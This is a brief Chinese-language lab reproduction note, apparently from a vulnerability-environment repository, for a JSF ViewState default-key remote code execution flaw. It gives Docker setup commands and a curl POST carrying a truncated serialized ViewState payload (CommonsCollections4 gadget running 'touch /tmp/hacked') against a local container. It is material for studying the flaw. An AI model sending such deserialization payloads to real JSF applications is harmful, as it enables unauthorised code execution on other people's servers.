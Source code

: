 环境搭建
```
docker build -t jsf-viewstate-default-rce .
docker run -d -p 9090:8080 jsf-viewstate-default-rce
```
![](./img/99af1643f2f1438f84771f10249fa3dc.png)

漏洞复现
```
// 容器内执行命令
docker exec -it <container> ls /tmp/

// 参数: CommonsCollections4 "touch /tmp/hacked"
curl -X POST "http://127.0.0.1:9090/jsf/calc.xhtml" -d "javax.faces.ViewState=H4sIAAAAAAAAA..."
```

![](./img/4b72a4ffb3964bf9b1557007b2dcf62c.png)



